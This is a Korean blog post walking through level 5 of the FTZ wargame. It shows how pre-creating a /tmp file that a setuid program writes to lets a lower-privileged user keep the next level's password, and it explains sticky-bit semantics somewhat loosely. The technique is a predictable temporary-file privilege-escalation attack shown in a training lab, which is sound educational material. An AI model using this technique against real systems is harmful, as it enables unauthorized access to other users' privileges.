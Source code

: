 ```yaml
---
layout: post
title: FTZ Level5
categories: [Wargame]
tags: [FTZ]
comments: true
---
```


{% highlight bash %}
[level5@ftz level5]$ cat hint 
 
/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.
 
이를 이용하여 level6의 권한을 얻어라.
{% endhighlight %}
 
이 문제를 tmp폴더의 특성을 이용해 풀이하였다.

{% highlight bash %}
[level5@ftz level5]$ ls -dl /tmp
drwxrwxrwt    3 root     root         4096 Oct  9 14:58 /tmp
{% endhighlight %}
 
/tmp폴더를 보게되면 sticky bit가 걸려있는데, 이를 이용해 문제를 풀 수 있다. 다른 사람의 풀이를 보게되면 race condition을 이용하여 해결하였다.

우선 `sticky bit`의 특성을 살펴보면 모든 권한이 있기 때문에 누구나 이 속에 있는 파일및 폴더를 수정 및 실행할 수 있다.

하지만 stiky bit로 인해 소유자를 제외한 사람은 삭제를 할 수 없다. 물론 root의 경우는 삭제가 가능하다. level5파일을 살펴보자.

{% highlight bash %}
[level5@ftz level5]$ ls -l /usr/bin/level5 
-rws--x---    1 level6   level5      12236 Sep 10  2011 /usr/bin/level5
{% endhighlight %}

level5파일은 level6의 권한으로 실행이 되게 된다. 이 말은 root가 아니므로 다른 사용자가 된다. 다른 사용자의 경우 삭제를 하지 못한다는 뜻이다.

level5의 권한으로 파일을 생성한 후 level6의 권한으로 이 **파일을 수정**할 수는 있지만, **삭제의 경우 불가능**하다.

그러므로 level5파일이 level5.tmp파일에 답을 쓴 후 **삭제를 하지 못하므로**, 안에 있는 값이 남아있게 된다.

{% highlight bash %}
[level5@ftz tmp]$ echo "" >> level5.tmp
[level5@ftz tmp]$ ls -l level5.tmp 
-rw-rw-r--    1 level5   level5          1 Oct  9 15:05 level5.tmp
[level5@ftz tmp]$ /usr/bin/level5
[level5@ftz tmp]$ ls -l level5.tmp 
-rw-rw-r--    1 level5   level5         31 Oct  9 15:05 level5.tmp
{% endhighlight %}

이렇게 실행을 하게 되면 파일의 크기가 변경되었음을 알 수 있다.

{% highlight bash %}
[level5@ftz tmp]$ cat level5.tmp 
next password : 
{% endhighlight %}